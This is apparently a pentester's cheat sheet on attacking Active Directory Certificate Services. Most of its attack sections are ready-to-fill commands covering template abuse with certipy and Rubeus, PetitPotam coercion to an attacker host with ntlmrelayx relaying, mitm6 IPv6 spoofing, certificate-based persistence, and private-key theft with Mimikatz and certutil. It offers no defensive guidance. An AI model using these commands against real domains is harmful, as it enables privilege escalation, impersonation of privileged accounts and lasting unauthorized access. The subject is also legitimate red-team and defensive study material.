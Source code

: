 ```yaml
---
layout: blank
---
```


### Attacking Active Directory Certificate Services (ADCS)

**Overview of ADCS**
- ADCS implements Public Key Infrastructure (PKI) in Windows domains, providing certificates for secure communication, user authentication, and more.
- It integrates tightly with Active Directory, enabling automated certificate issuance and renewal.
- Common uses include:
    - Smart card logon
    - Encrypting File System (EFS)
    - Wi-Fi and VPN authentication

**Key Components**
- Certificate Authority (CA): Issues, revokes, and manages certificates.
- Enrollment Services: Allows users and computers to request certificates via interfaces like the Certificate Enrollment Web Service (CES).
- Certificate Templates: Define certificate properties, validity periods, and permissions.

#### Enumeration
The first step in attacking ADCS is understanding the configuration of the CA, its templates, and associated permissions. Enumerating these components reveals potential misconfigurations that can be exploited.

- **Certipy** - Python tool for ADCS enumeration:
```
certipy find -u {username} -p {password} -dc-ip {dc_IP} -text -stdout
```
    - Look for `[!] Vulnerabilities` in templates and certificates
- **ldapsearch** - Query AD objects for ADCS-related information:
```
ldapsearch -x -h {DC_IP} -b "CN=Configuration,DC=domain,DC=com" "(objectClass=pKIEnrollmentService)"
```
- **Certutil** - View available certificate templates:
```
certutil -template
```

#### Common Vulnerabilities
ADCS often suffers from misconfigurations or insecure defaults that attackers can exploit. Here are the primary vulnerabilities:
- **Misconfigured Certificate Templates**:
    - Templates allowing _Authenticated Users_ to enroll enable low-privilege users to request certificates for accounts with higher privileges.
    - Certificate request agent rights can be abused to impersonate other users.
- **NTLM Relay Attacks**:
    - ADCS web enrollment services often lack Extended Protection for Authentication (EPA), making them vulnerable to NTLM relaying.
- **Vulnerable DACLs**:
    - Improper permissions on CA objects can allow attackers to modify or issue unauthorized certificates.
Insecure configurations allow attackers to escalate privileges by obtaining certificates for sensitive accounts or performing man-in-the-middle attacks.

#### Attack Techniques
**Exploitation of Misconfigured Certificate Templates**
Certificate templates define which users can request specific types of certificates. When a template is misconfigured to allow enrollment by "Authenticated Users," any domain user can request a certificate that provides elevated privileges. This is a common misstep in ADCS deployments.

- Find templates and identify misconfigurations:
```
certipy find -u {username} -p {password} -d {domain}
```
- Request a certificate from a vulnerable template:
```
certipy request -u {username} -p {password} -d {domain} -template {template_name}
```
- Authenticate using the obtained certificate:
```
Rubeus.exe asktgt /user:{username} /certificate:{path_to_cert} /password:{password}
```

**NTLM Relay with PetitPotam**
The PetitPotam attack coerces a target server to authenticate to an attacker-controlled machine via NTLM. When relayed to the ADCS web enrollment service, this can be used to request certificates that allow domain escalation.
- Trigger authentication via PetitPotam:
```
PetitPotam.py {target_DC_IP} {attacker_IP}
```
- Relay NTLM to ADCS:
```
ntlmrelayx.py -t http://{ADCS_IP}/certsrv/certfnsh.asp
```
- Extract and use the resulting certificate to impersonate privileged users.

**Machine-in-the-Middle with mitm6**
ADCS systems are often vulnerable to IPv6 spoofing attacks. Tools like mitm6 allow attackers to intercept NTLM traffic, relaying it to request certificates for privilege escalation.
- Launch IPv6 spoofing:
```
mitm6 -d {domain}
```
- Relay NTLM to ADCS:
```
ntlmrelayx.py -6 -t ldap://{DC_IP} --adcs
```

**Persistence with Certificates**

Certificates are an excellent mechanism for persistence because they allow authentication without passwords. By requesting a long-lived certificate, attackers can maintain access even if the compromised user’s password is changed.

- Request a certificate with extended validity:
```
certipy request -u {username} -p {password} -d {domain} -template {template_name} -validity {days}
```
- Export the certificate for reuse:
```
certutil -exportPFX -p {password} -cert {cert_name} {output_path}
```
- Authenticate using the certificate:
```
Rubeus.exe asktgt /user:{username} /certificate:{path_to_cert}
```

**Certificate Theft**
Attackers can extract private keys and certificates from systems to impersonate users or maintain persistence.
- Dump private keys using Mimikatz:
```
crypto::capi
```
- Export certificates with private keys:
```
certutil -exportPFX -user -p {password} my {output_file}
```

Stolen certificates can be used in attacks such as pass-the-certificate to impersonate users or maintain access to systems.